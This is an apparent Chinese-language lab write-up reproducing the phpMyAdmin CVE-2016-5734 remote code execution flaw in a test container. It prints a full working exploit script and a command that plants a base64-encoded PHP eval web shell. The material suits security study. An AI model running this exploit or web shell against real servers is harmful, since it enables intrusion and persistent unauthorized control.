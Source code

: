 # PhpMyAdmin 4.0.x-4.6.2远程执行代码漏洞（CVE-2016-5734）

###### by ADummy

### 0x00利用路线

​			exp直接打，kali自带--->连接webshell

### 0x01漏洞介绍			

​			PhpMyAdmin是一个用PHP编写的免费软件工具，旨在处理Web上的MySQL管理。该漏洞在`preg_replace`函数中，因为用户提交的信息可以被拼接到第一个参数中。

在PHP 5.4.7之前，的第一个参数`preg_replace`可以用截断，`\0`并将搜索模式更改为`\e`。它可能会导致远程执行代码漏洞。

##### 影响版本

```
phpmyadmin - 4.0.10.16之前的4.0.x版本
phpmyadmin - 4.4.15.7之前的4.4.x版本
phpmyadmin - 4.6.3之前的4.6.x版本（实际上是因为此版本需要PHP5.5 +，所以无法重现此漏洞）
```

### 0x02漏洞复现

启动后，访问`http://your-ip:8080`，您将看到phpMyAdmin的登录页面。登录有`root`：`root`

此漏洞需要登录和写数据权限。

我们使用此POC（https://www.exploit-db.com/exploits/40185/）重现该漏洞。

```
./cve-2016-5734.py -c 'system(id);' -u root -p root -d test http://your-ip:8080/
```

#### exp

```
#!/usr/bin/env python

"""cve-2016-5734.py: PhpMyAdmin 4.3.0 - 4.6.2 authorized user RCE exploit
Details: Working only at PHP 4.3.0-5.4.6 versions, because of regex break with null byte fixed in PHP 5.4.7.
CVE: CVE-2016-5734
Author: https://twitter.com/iamsecurity
run: ./cve-2016-5734.py -u root --pwd="" http://localhost/pma -c "system('ls -lua');"
"""

import requests
import argparse
import sys

__author__ = "@iamsecurity"

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument("url", type=str, help="URL with path to PMA")
    parser.add_argument("-c", "--cmd", type=str, help="PHP command(s) to eval()")
    parser.add_argument("-u", "--user", required=True, type=str, help="Valid PMA user")
    parser.add_argument("-p", "--pwd", required=True, type=str, help="Password for valid PMA user")
    parser.add_argument("-d", "--dbs", type=str, help="Existing database at a server")
    parser.add_argument("-T", "--table", type=str, help="Custom table name for exploit.")
    arguments = parser.parse_args()
    url_to_pma = arguments.url
    uname = arguments.user
    upass = arguments.pwd
    if arguments.dbs:
        db = arguments.dbs
    else:
        db = "test"
    token = False
    custom_table = False
    if arguments.table:
        custom_table = True
        table = arguments.table
    else:
        table = "prgpwn"
    if arguments.cmd:
        payload = arguments.cmd
    else:
        payload = "system('uname -a');"

    size = 32
    s = requests.Session()
    # you can manually add proxy support it's very simple ;)
    # s.proxies = {'http': "127.0.0.1:8080", 'https': "127.0.0.1:8080"}
    s.verify = False
    sql = '''CREATE TABLE `{0}` (
      `first` varchar(10) CHARACTER SET utf8 NOT NULL
    ) ENGINE=InnoDB DEFAULT CHARSET=latin1;
    INSERT INTO `{0}` (`first`) VALUES (UNHEX('302F6500'));
    '''.format(table)

    # get_token
    resp = s.post(url_to_pma + "/?lang=en", dict(
        pma_username=uname,
        pma_password=upass
    ))
    if resp.status_code is 200:
        token_place = resp.text.find("token=") + 6
        token = resp.text[token_place:token_place + 32]
    if token is False:
        print("Cannot get valid authorization token.")
        sys.exit(1)

    if custom_table is False:
        data = {
            "is_js_confirmed": "0",
            "db": db,
            "token": token,
            "pos": "0",
            "sql_query": sql,
            "sql_delimiter": ";",
            "show_query": "0",
            "fk_checks": "0",
            "SQL": "Go",
            "ajax_request": "true",
            "ajax_page_request": "true",
        }
        resp = s.post(url_to_pma + "/import.php", data, cookies=requests.utils.dict_from_cookiejar(s.cookies))
        if resp.status_code == 200:
            if "success" in resp.json():
                if resp.json()["success"] is False:
                    first = resp.json()["error"][resp.json()["error"].find("<code>")+6:]
                    error = first[:first.find("</code>")]
                    if "already exists" in error:
                        print(error)
                    else:
                        print("ERROR: " + error)
                        sys.exit(1)
    # build exploit
    exploit = {
        "db": db,
        "table": table,
        "token": token,
        "goto": "sql.php",
        "find": "0/e\0",
        "replaceWith": payload,
        "columnIndex": "0",
        "useRegex": "on",
        "submit": "Go",
        "ajax_request": "true"
    }
    resp = s.post(
        url_to_pma + "/tbl_find_replace.php", exploit, cookies=requests.utils.dict_from_cookiejar(s.cookies)
    )
    if resp.status_code == 200:
        result = resp.json()["message"][resp.json()["message"].find("</a>")+8:]
        if len(result):
            print("result: " + result)
            sys.exit(0)
        print(
            "Exploit failed!\n"
            "Try to manually set exploit parameters like --table, --database and --token.\n"
            "Remember that servers with PHP version greater than 5.4.6"
            " is not exploitable, because of warning about null byte in regexp"
        )
        sys.exit(1)
```

![PhpMyAdmin_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/PhpMyAdmin_RCE_1.jpg)

执行exp id被执行

![PhpMyAdmin_RCE_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/PhpMyAdmin_RCE_2.jpg)

```
kali里有自带利用脚本 searchsploit phpmyadmin

48105.py为我们的利用脚本

python3 40185.py -u root --pwd="root" http://192.168.56.111:8080/ -c "file_put_contents('shell.php',base64_decode('PD9waHAgZXZhbCgkX1BPU1RbY21kXSk7Pz4='));"
```

进入容器查看，shell.php被成功写入

![PhpMyAdmin_RCE_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/PhpMyAdmin_RCE_3.jpg)

蚁剑连接

此处不知道为什么连接不上。

#### 0x03参考资料

这位大佬写的思路很好，强烈推荐

https://blog.csdn.net/nzjdsds/article/details/100142346

